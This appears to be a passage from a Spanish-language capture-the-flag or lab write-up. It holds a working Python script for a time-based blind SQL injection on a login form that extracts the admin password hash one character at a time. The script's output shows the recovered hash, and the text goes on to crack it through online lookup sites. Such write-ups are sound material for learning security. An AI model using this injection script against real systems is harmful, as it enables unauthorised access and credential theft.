 ```python

def makeRequest(sqli):
    data_post = {
        'username' : '%s' % sqli,
        'password' : 'loquesea'
    }
    time_start = time.time()
    r = requests.post(url, data=data_post)
    time_end = time.time()

    if time_end - time_start > 3:
        return 1

def payload():
    p1 = log.progress("Payload")
    p1.status("Generando el payload")
    result = ""
    p2 = log.progress("Password [admin]")
    cont1 = 0
    for i in range(1,50):
        if cont1 != 0:
            break
        cont = 0
        for c in s:
            sqli = "' or if(substr((select password from users where username='admin'),%d,1)='%c',sleep(3),1)-- -" % (i, c)
            p1.status("Probando con: %c" % c)
            cont += 1
            if makeRequest(sqli):
                result += c
                p2.status("%s" % result)
                time.sleep(2)
                break
            if cont == 36:
                cont1 = 1
    p2.success("%s" % result)
    p1.success("Fin del payload")

if __name__ == '__main__':
    payload()
```

```bash
❯ python3 database_password.py
[+] Payload: Fin del payload
[+] Password [admin]: 4f5fffa7b2340178a716e3832451e058
```

Ya tenemos la contraseña hasheada del usuario **admin**, así que vamos a ocupar la herramienta en linea [crackstation](https://crackstation.net/) para crackearla; sin embargo, en esta ocación, no nos regresa un resultado, así que vamos a utilizar otro recurso online [hashes](https://hashes.com/en/decrypt/hash)
